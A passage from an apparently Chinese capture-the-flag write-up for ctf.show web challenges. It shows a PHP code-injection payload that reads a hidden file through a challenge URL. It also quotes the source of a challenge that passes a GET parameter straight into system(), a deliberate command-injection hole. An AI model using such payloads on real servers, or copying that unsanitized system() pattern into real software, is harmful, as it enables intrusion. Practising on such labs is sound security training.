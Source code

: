 可以看到我们要访问倒数第二个文件，所以我们接下来的代码是

```php
http://5a6291ec-129d-4e7f-b30b-7776441151ff.challenge.ctf.show/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

得到flag。

***



## <mark style="color:blue;background-color:orange;">(13)Web 41</mark>

不会，需要脚本，先跳过了。

***



## <mark style="color:blue;background-color:orange;">（14）Web 42</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
```